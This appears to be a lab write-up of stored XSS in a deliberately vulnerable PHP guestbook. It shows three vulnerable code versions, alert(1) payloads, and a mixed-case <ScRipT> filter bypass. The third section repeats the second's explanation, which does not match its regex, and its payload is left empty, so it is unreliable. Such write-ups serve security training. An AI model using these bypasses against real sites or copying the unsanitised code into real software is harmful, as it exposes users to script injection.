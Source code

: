Unlike Reflective XSS, Stored XSS will be saved on database and it will be fetch when required so any user fetches this data will be victim of this attack. It can be username, account description, maybe a simple chat message or even emails. 

# Vulnerable Code 1

This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


## Abuse

Since there is no input sanitizing we can just make it save javascript commands and during data using, malicious javascript code will be executed.

## Payload

```php
<script>alert(1)</script>
```

## Result

```php
<div id="guestbook_comments">
Name: <script>alert(1)</script><br>
Message: <script>alert(1)</script><br>
</div>
```


# Vulnerable Code 2
This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


## Abuse

In this code, there is input filtering on both "mtxMessage" and "txtName" parameter. On "mtxMessage" parameter any html and php tag will be stripped and javacript code execution will prevented but same approach didn't made for "txtName" parameter.

The problem on "txtName" parameter, any given "\<script>" value inside of user input will be deleted. This filtering is not secure because it only filters lower character, we can still execute javascript with lower and upper characters because javascript is not case sensitive. Payload will be like "\<ScRipT"

## Payload

```php
<ScRipT>alert(1)</ScRipT
```


## Result

```php
<div id="guestbook_comments">
Name: <script>alert(1)</script><br>
Message: alert(1)<br>
</div>
```

# Vulnerable Code 3

This code will get "mtxMessage" and "txtName" parameter  from user and save it to database. 


```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

## Abuse

In this code, there is input filtering on both "mtxMessage" and "txtName" parameter. On "mtxMessage" parameter any html and php tag will be stripped and javacript code execution will prevented but same approach didn't made for "txtName" parameter.

The problem on "txtName" parameter, any given "\<script>" value inside of user input will be deleted. This filtering is not secure because it only filters lower character, we can still execute javascript with lower and upper characters because javascript is not case sensitive. Payload will be like "\<ScRipT"

## Payload

## Result

